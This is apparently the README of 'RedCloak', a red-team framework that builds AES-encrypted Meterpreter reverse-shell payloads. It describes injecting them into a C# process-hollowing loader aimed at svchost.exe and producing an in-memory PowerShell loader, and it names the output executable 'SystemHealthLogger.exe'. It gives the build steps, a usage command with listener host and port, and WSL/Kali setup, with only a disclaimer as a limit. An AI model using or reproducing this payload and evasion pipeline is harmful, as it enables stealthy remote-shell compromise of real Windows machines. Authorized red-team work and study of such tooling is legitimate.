

# 💻  RedCloak — AES Shellcode Builder & Loader

RedCloak is a red-team automation framework that generates AES‑encrypted Meterpreter shellcode, embeds it into a C# process-hollowing loader, and optionally produces a PowerShell reflective loader — all in one workflow.

It bridges WSL + msfvenom + MSBuild + CryptoAPI to give operators a fast, repeatable payload pipeline without touching Metasploit internals manually.

> ⚠️ This tool is designed strictly for educational, red-team, and lab environments.

---

## ✨ Features

Automatically generates:

- `windows/x64/meterpreter/reverse_tcp`
- `windows/x64/meterpreter/reverse_https`
- Uses `msfvenom` via WSL

Encrypts raw shellcode using:

- AES‑256
- Windows CryptoAPI (SHA‑256 + CryptDeriveKey)

Injects encrypted payload into a C# process hollowing loader:

- Targets `svchost.exe`
- Entry point overwrite
- Runtime AES decryption in memory

Builds everything automatically using:

- MSBuild
- No Mono
- No PowerShell compilation hacks

Generates a PowerShell reflection loader (`rev.ps1`):

- GZip + Base64 compressed
- In-memory execution only

Clean output structure per payload:

- Encrypted shellcode
- AES key material
- Final EXE
- PS1 loader
- Archived C# source (`RedCloak.cs`)

---

## ⚙️ Requirements

### Host (Windows)
- Windows 10 / 11
- Python 3.8+
- Visual Studio 2022 (MSBuild installed)
- WSL enabled

### WSL / Linux
- Metasploit Framework (`msfvenom`)

### Python Dependencies
```
pip install colorama
```

---

## ⚙️ Configuration (`config.json`)

RedCloak relies on a small configuration file:

```json
{
  "MSBUILD_PATH": "C:/Program Files/Microsoft Visual Studio/2022/Preview/MSBuild/Current/Bin/MSBuild.exe",
  "WSL_BASE": "/mnt/c/Users/Alien0ne/Desktop/RedCloak"
}
```

- `MSBUILD_PATH` → Absolute path to `MSBuild.exe`
- `WSL_BASE` → WSL-accessible directory where RedCloak resides

---

## 🚀 Usage

RedCloak is fully CLI-driven:

```
python redcloak.py --lhost 127.0.0.1 --lport 443 --payload windows/x64/meterpreter/reverse_https
```

### Supported Payloads

- `windows/x64/meterpreter/reverse_tcp`
- `windows/x64/meterpreter/reverse_https`




---

## 📦 Output Structure

Each run produces a dedicated folder:

```
output/
└── windows_x64_meterpreter_reverse_https_127_0_0_1_443/
    ├── SystemHealthLogger.exe   # Final C# loader
    ├── shellcode.bin            # Raw shellcode
    ├── payload.txt              # AES key + encrypted payload
    ├── rev.ps1                  # PowerShell reflective loader
    └── RedCloak.cs              # Archived patched C# source
```

---

## 🧠 How It Works (High-Level)

1. `msfvenom` generates raw shellcode (via WSL)
2. Shellcode is AES‑256 encrypted using CryptoAPI
3. AES key + ciphertext embedded into C# loader
4. Loader:
    - Spawns suspended `svchost.exe`
    - Overwrites entry point
    - Decrypts shellcode in memory
    - Resumes execution
5. Optional PowerShell loader reflectively loads the EXE

---

## 🧰 WSL Setup

Install WSL with Kali Linux and dependencies:

```bash
wsl --install -d kali-linux
sudo apt update && sudo apt install kali-linux-default -y
```

Ensure `msfvenom` is installed and available in `$PATH`.

---

## ⚠️ Disclaimer

This project is provided for educational and authorized red-team use only.

The author takes no responsibility for:

- Unauthorized access
- Misuse in production environments
- Illegal activities of any kind

> Use responsibly. Test ethically.

---

**Author**: Narasimha Tiruveedula  
**LinkedIn**: [https://www.linkedin.com/in/narasimhatiruveedula/](https://www.linkedin.com/in/narasimhatiruveedula/)
